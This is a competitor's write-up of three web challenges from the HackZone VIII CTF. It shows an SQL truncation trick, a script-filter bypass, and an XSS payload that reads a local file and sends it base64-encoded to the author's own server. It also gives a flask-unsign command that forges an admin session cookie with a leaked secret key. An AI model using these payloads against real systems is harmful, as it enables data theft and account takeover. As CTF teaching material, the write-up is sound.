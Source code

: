 # **HackZone VIII Web Writeups** #
Hello guys , HackZone VIII CTF has ended this morning , i participated with my team Fword and we got the 4th place, here is my writeup for the three web challenges I managed to solve :D

![TASK](https://imgur.com/xrafZEo.png)

# **BabyWeb1(722pts)(10 solves)** #

![TASK](https://imgur.com/zu1XKQe.png)

In this task we are given a platform where we can share a picture with some msg and it generates a password for us to access these details ,there are already some pictures posted by the author, so we have to access them and maybe the flag in the details of one of them.

![TASK](https://imgur.com/9hXA90t.png)

Trying to post a picture with the same title of the posted pictures will be denied so let's try SQL truncation attack and submit a picture with these details :

- Title : "naaah                                                                 "
- url : "anything here"
-msg : "anything"

And Bingo it passed the title check and we got a password :D 

![TASK](https://imgur.com/rywyGg4.png)

Using this password will give us the details of the picture and the flag if we check the source code :D

![TASK](https://imgur.com/bpK7N8F.png)

# **Insecure(884pts)(4 solves)** #

![TASK](https://imgur.com/ehpXH1T.png)

I really had a lot of fun playing this task ,we are given a text to image converter website , as the description said the first part of the flag is due to a misconfiguration so the first thing i thinked about is a bucket misconfig and it was the case.

![TASK](https://imgur.com/lISjgSe.png)

Accessing this url will give us the first part (The same bucket where Hackzone Logo is stored)
> https://storage.googleapis.com/hzviii/flag_part1.txt

**1st Part:** HZVIII{Buck3t_M1sc0nf1gur4t1on_

Let's start the second part which is the most interesting , we have to read this file /psycor/flag_part2.txt , so the first thing i thinked about was abusing an SSRF and read local files .
It was a php website so firstly i thinked that maybe we will use an exploit in the famous GD library of php or something like that but it was only a rabbit hole xd

After some enumeration i discovered that we have an XSS here , so things are becoming clearer maybe it's using phantom Js to convert this text .

![TASK](https://imgur.com/UAn5UOk.png)

Our scenario now is revealed , we'll exploit this XSS vulnerability to read local files , we have also to mention that the script tag was filtered .
I passed a lot of time in this part and tried a lot with basically this payload but i didn't get anything :

```
<img src="aa" onerror="function reqListener () {
    var encoded = encodeURI(this.responseText);
    var b64 = btoa(this.responseText);
    var raw = this.responseText;
    document.write('<iframe src="http://100.26.206.184:1234/?a='+b64+'"></iframe>');
} 
var oReq = new XMLHttpRequest(); 
oReq.addEventListener('load', reqListener); 
oReq.open('GET', 'file:///psycor/flag_part2.txt'); 
oReq.send();">
```
I have than tried to read it using iframes but i didn't have any results :'( 

![TASK](https://imgur.com/bZInnkb.png)

This was really painful xd i thinked that maybe using onerror attribute , phantom Js won't wait until XMLHttpRequest fetch the content of the file , so maybe we have to use the script tag ? But it's filtered so all we have to do is bypass this filter :D

![TASK](https://imgur.com/ySPcXuS.png)

As we see in the picture below , the script word is stripped so what if we enter :
> scscriptript

The script word will be stripped and Bingo we will have our script tag , let's try it 

![TASK](https://imgur.com/OqHP5I5.png)

Yeees It workeed :D so now how will we use the script tag ? we will simply try to convert this line now :

```html
<scscriptript src="http://100.26.206.184:1234/test.js"></scscriptript>
```
**NOTE :** It's my VPS IP so DONT use it :D

And i hosted the test.js file in my server , this is its content , we will try to read the file using XMLHttpRequest so basically the same payload as below

```javascript
function reqListener () {
    var encoded = encodeURI(this.responseText);
    var b64 = btoa(this.responseText);
    var raw = this.responseText;
    document.write('<iframe src="http://100.26.206.184:1234/?a='+b64+'"></iframe>');
} 
var oReq = new XMLHttpRequest(); 
oReq.addEventListener("load", reqListener); 
oReq.open("GET", "file:///psycor/flag_part2.txt"); 
oReq.send();
```

And yees we received an answer :D

![TASK](https://i.imgur.com/hTbrKXX.png)

Base64 decoding it will give us the last part of the flag :D I really enjoyed this task so thank you @PsycoR for your efforts 

# **Calculator(722pts)(10 solves)** #

This task was pretty obvious , we have x and y parameters and the web app calculates their division , if we enter any character we will have the error page and Bingo debug mode is true :D

![TASK](https://imgur.com/iLqircE.png)

We will now leak the Secret key of the app and sign a session cookie that has the attribute "is_admin" set to True .

![TASK](https://imgur.com/jTwwuLm.png)

To do that we will use flask-unsign tool with the following command :

> flask-unsign --sign --cookie "{'is_admin': True}" --secret 'DeRz7YDZ5nCDqR3vt33QpuhkrSYLmuX8' --legacy

![TASK](https://imgur.com/NIEbykl.png)

And changing the cookie will give us the flag !

![TASK](https://imgur.com/xOhQh4y.png)

I want to thank the organizers for this cool CTF and nice tasks, unfortunately i didn't have enough time to look at pwn tasks :( I really have to sleep now so if you have any questions contact me on Twitter @BelkahlaAhmed1
